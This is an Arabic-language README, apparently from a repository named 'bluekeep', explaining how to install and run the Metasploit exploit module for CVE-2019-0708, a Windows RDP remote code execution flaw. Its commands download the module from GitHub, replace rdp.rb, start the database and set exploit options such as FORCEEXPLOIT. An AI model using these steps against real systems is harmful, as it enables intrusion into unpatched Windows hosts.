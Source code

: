# bluekeep
 CVE- 2019-0708 هذه هي ثغرة الارديبي الاخيرة رقمها
 
 
للثغرة عدة مشاكل ولغاية لحظة بدء هذا المشروع لم يقوم رابد7 الى الان بوضعها في تحديثات الميتا سبلويت وهذا الاصدر فيها عدة مشاكل



طريقة تنصيب بسيطة يجب ان تقوم بتحديث الميتا سبلويت الى اخر اصدار عن  طريق جميع هذه الاوامر

msfupdate

apt-get update

apt-get upgrade


ثم تنفيذ الاوامر الاتية

cd /usr/share/metasploit-framework/lib/msf/core/exploit/


rm rdp.rb

wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb


mkdir /usr/share/metasploit-framework/modules/exploits/windows/rdp/


cd /usr/share/metasploit-framework/modules/exploits/windows/rdp/

wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb


الان تم التنصيب يجب اعادة تشغيل قواعدالبيانات وتشغيل الميتا سبلويت لاستخدمها عن طريق الاوامر الاتية 

service postgresql start

msfdb init 

msfconsole

الان بعض الاوامر المهمة بعد الدخول للثغرة وقبل استخدامها


set target 1


set FORCEEXPLOIT true



هذه هي اهم الاوامر المهمة بعد الدخول للثغرة لتفادي بعض الاخطاء

